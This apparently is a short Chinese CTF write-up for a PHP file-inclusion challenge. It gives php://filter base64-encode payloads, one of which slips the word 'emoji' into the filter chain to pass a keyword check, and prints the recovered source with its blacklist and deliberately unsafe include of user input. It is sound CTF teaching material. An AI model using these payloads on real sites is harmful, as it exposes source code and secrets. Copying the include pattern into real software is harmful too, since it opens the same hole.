 查看页面源代码,文件包含漏洞

![](C:\Users\24993\Desktop\博客文章\static\sourcecode.png)

**payload:/index.php?file=php://filter/read=convert.base64-encode/resource=emoji**

emoji.php

```html
<div style="text-align: center;">
    <h4>It is so funny, isn't it</h4>
    <img style="width: 10%" src="img/<?php echo rand(1,10);?>.gif">
</div>
```

**payload:/index.php?file=php://filter/emoji/read=convert.base64-encode/resource=index**

index.php

```php+HTML
<html>
    <head>
        <meta charset="utf-8">
        <meta name="author" content="R1esbyfe">
        <meta name="keywords" content="Challenge12">
    </head>
        <body>
        <div style="text-align: center">
            <!-- try to read index.php first! -->
            <h4>Try to click the button to enjoy my emoji!!!</h4>
            <form action="index.php" method="get">
                <input type="hidden" name="file" id="file" value="emoji">
                <button type="submit">Click me</button>
                <!-- You may find it is a little difficult to read other files, right :( -->
                <!-- in index.php:

                    $file = $_GET['file'];
                    if(strpos($file, "emoji") !== false){
                    include($file.'.php');
                    }
                -->
            </form>
        </div>
        </body>
</html>

<?php
include('blacklist.php');

//try to read findme.php to find my secrets :D

$file = $_GET['file'];

if(isset($file)){
    foreach ($blacklist as $blacklistedWord) {
        if (preg_match('/(?i)' . $blacklistedWord . '/', $file)) {
            echo "<center>nonono</center>";
            return;
        }
    }

    if(strpos($file, "emoji") !== false){
        include($file.'.php');
    }else{
        echo "<center>No,You need to find another way to find my secret :(</center>";
        return;
    }
```